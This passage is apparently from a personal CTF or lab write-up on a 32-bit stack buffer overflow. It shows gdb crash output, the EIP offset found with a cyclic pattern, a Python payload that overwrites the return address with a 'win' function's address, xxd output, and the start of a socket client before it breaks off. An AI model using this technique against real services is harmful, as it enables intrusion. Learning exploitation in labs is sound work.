 ```
0028| 0xffffcf9c ("c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35624134 in ?? ()
```
#gdb 

This tells us the *EIP* being written is:
```
EIP: 0x35624134 ('4Ab5')
```
#gdb 

Then back on [zerosum0x0](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html):
![[031_buffer_overflow_1.png]]

And that's our length.
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab
```

And I want to pass here the address of the *win* function which is little-endian
```
0x080491f6

f6 91 04 08

\xf6 \x91 \x04 \x08
```

And I then write a *python* script to output these.
```python
#!/usr/bin/env python
import sys

payload = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08'

sys.stdout.buffer.write(payload)
```
#python 

And piping this into ```xxd``` we can see our bytes.
```bash
python payload.py | xxd
```
#python #xxd

```
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab
00000020: 3041 6231 4162 3241 6233 4162 f691 0408  0Ab1Ab2Ab3Ab....
```

Now let's connect to the server.
```python
#!/usr/bin/env python

import socket
import argparse
import struct

parser = argparse.ArgumentParser()
parser.add_argument("host", type=str, help="The hostname or IP address to connect to")
parser.add_argument("port", type=int, help="The port for the service to connect to")

args = parser.parse_args()

```